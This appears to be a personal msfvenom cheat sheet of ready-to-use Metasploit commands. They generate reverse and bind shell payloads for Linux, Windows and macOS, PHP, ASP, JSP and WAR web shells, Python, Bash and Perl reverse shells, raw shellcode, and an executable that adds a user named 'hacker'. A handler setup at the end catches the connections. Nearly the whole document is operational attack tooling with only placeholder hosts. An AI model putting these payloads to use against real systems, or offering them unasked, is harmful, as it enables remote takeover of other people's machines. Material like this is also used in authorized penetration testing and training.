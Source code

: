 # MSFVENOM cheat sheet

## for generating shells and shellcode

List payloads
msfvenom -l

Binaries Payloads

Linux Meterpreter Reverse Shell
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=<Local IP Address> LPORT=<Local Port> -f elf > shell.elf

Linux Bind Meterpreter Shell
msfvenom -p linux/x86/meterpreter/bind_tcp RHOST=<Remote IP Address> LPORT=<Local Port> -f elf > bind.elf

Linux Bind Shell
msfvenom -p generic/shell_bind_tcp RHOST=<Remote IP Address> LPORT=<Local Port> -f elf > term.elf

Windows Meterpreter Reverse TCP Shell
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<Local IP Address> LPORT=<Local Port> -f exe > shell.exe

Windows Reverse TCP Shell
msfvenom -p windows/shell/reverse_tcp LHOST=<Local IP Address> LPORT=<Local Port> -f exe > shell.exe

Windows Encoded Meterpreter Windows Reverse Shell
msfvenom -p windows/meterpreter/reverse_tcp -e shikata_ga_nai -i 3 -f exe > encoded.exe

Mac Reverse Shell
msfvenom -p osx/x86/shell_reverse_tcp LHOST=<Local IP Address> LPORT=<Local Port> -f macho > shell.macho

Mac Bind Shell
msfvenom -p osx/x86/shell_bind_tcp RHOST=<Remote IP Address> LPORT=<Local Port> -f macho > bind.macho

Web Payloads

PHP Meterpreter Reverse TCP
msfvenom -p php/meterpreter_reverse_tcp LHOST=<Local IP Address> LPORT=<Local Port> -f raw > shell.php
cat shell.php | pbcopy && echo ‘<?php ‘ | tr -d ‘\n’ > shell.php && pbpaste >> shell.php

ASP Meterpreter Reverse TCP
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<Local IP Address> LPORT=<Local Port> -f asp > shell.asp

JSP Java Meterpreter Reverse TCP
msfvenom -p java/jsp_shell_reverse_tcp LHOST=<Local IP Address> LPORT=<Local Port> -f raw > shell.jsp

WAR
msfvenom -p java/jsp_shell_reverse_tcp LHOST=<Local IP Address> LPORT=<Local Port> -f war > shell.war

Scripting Payloads

Python Reverse Shell
msfvenom -p cmd/unix/reverse_python LHOST=<Local IP Address> LPORT=<Local Port> -f raw > shell.py

Bash Unix Reverse Shell
msfvenom -p cmd/unix/reverse_bash LHOST=<Local IP Address> LPORT=<Local Port> -f raw > shell.sh

Perl Unix Reverse shell
msfvenom -p cmd/unix/reverse_perl LHOST=<Local IP Address> LPORT=<Local Port> -f raw > shell.pl

Shellcode

Windows Meterpreter Reverse TCP Shellcode
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<Local IP Address> LPORT=<Local Port> -f <language>

Linux Meterpreter Reverse TCP Shellcode
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=<Local IP Address> LPORT=<Local Port> -f <language>

Mac Reverse TCP Shellcode
msfvenom -p osx/x86/shell_reverse_tcp LHOST=<Local IP Address> LPORT=<Local Port> -f <language>

Create User
msfvenom -p windows/adduser USER=hacker PASS=Hacker123$ -f exe > adduser.exe

Metasploit Handler

use exploit/multi/handler
set PAYLOAD <Payload name>
Set RHOST <Remote IP>
set LHOST <Local IP>
set LPORT <Local Port>
Run




tags: shell msfvenom christian
